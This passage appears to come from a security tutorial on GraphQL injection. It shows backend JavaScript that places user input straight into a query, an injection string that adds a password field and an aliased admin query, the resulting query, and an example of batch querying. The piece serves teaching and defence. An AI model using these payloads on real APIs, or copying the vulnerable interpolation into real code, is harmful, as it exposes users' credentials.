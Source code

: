 **If introspection is enabled** → You have a complete map of the API ✅

---

## GraphQL Injection Attack Patterns

### Pattern 1: Direct Query Injection

**Vulnerable Code** (Backend):
```javascript
// VULNERABLE - User input directly in GraphQL query
const query = `
  query {
    user(id: ${userId}) {
      id
      email
    }
  }
`;
```

**Attack**:
```
Normal input: 123
Injected: 123) { id email password } admin:user(id:1
```

**Resulting Query**:
```graphql
query {
  user(id: 123) {
    id
    email
    password  # ← Injected!
  }
  admin:user(id:1) {  # ← New query added!
    id
    email
    password
  }
}
```

### Pattern 2: Batch Query Injection

**What is Batch Querying?**
GraphQL allows multiple operations in one request:

```graphql
query {
  q1: user(id: 1) { email }
  q2: user(id: 2) { email }
  q3: user(id: 3) { email }
}
```
